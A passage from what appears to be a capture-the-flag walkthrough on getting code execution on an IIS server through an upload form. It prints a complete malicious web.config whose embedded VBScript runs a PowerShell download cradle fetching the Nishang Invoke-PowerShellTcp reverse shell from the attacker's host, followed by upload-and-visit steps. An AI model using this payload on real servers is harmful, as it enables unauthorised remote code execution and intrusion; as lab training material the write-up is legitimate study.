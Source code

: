       End If



So basically I need a `WSCRIPT.SHELL` COM object, and use it's Run
function to run a command. Ok, so because I only want to run one
specific line to download and execute my Nishang shell, this should be
simple. Here's a `web.config` file that will start that process:



    <?xml version="1.0" encoding="UTF-8"?>
    <configuration>
        <system.webServer>
          <handlers accessPolicy="Read, Script, Write">
             <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
          </handlers>
          <security>
             <requestFiltering>
                <fileExtensions>
                   <remove fileExtension=".config" />
                </fileExtensions>
                <hiddenSegments>
                   <remove segment="web.config" />
                </hiddenSegments>
             </requestFiltering>
          </security>
       </system.webServer>
    </configuration>
    <%@ Language=VBScript %>
    <%
      call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')")
    %>



### Execution

Now, I take two steps:

-   Upload the web.config using the web form
-   Visit `http://10.10.10.93/UploadedFiles/web.config`, which runs the
    asp code, which invokes PowerShell to download the Nishang shell,
    and then run it creating a connection back to me:
